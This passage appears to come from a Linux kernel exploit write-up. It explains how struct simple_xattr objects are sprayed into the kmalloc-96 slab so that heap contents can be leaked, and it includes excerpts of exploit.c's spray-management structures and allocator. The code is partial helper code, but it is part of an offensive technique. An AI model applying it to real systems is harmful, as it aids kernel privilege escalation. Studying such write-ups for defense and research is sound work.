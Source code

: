 ```c
    return 0;
  kmalloc96_obj_cnt++;
}
```

- The payload start with the same pattern and have a number at the end to make it unique per `struct simple_xattr` object. This way when leak heap, i can match `struct simple_xattr` object with userspace attribute data saved before.
- kmalloc-96 has 42 slots per slab, so spray 256 objects are kind of wasteful. Anyway, it still ok.

- [exploit.c#L182](./exploit.c#L182):

```c
struct simple_xattr_manager *simple_xattr_manager_alloc(int n)
{
  struct simple_xattr_manager *m = malloc(sizeof(*m));
  if (!m) {
    perror("malloc simple_xattr_manager");
    return NULL;
  }

  m->len = 0;
  m->max = n;
  m->attrs = calloc(n, sizeof(struct simple_xattr_attribute*));
  if (!m->attrs) {
    perror("calloc attrs storage"); 
    free(m);
    return NULL;
  }

  return m;
}
```

- [exploit.c#L125](./exploit.c#L125):

```c
struct simple_xattr_manager {
  int max;
  int len;
  struct simple_xattr_attribute **attrs;
};
```

- I use `struct simple_xattr_manager` object to store all data needed to spray `struct simple_xattr` objects.

- [exploit.c#L118](./exploit.c#L118):

```c
struct simple_xattr_attribute {
  char *path;
  char *name;
  char *payload;
  int size;
};
```
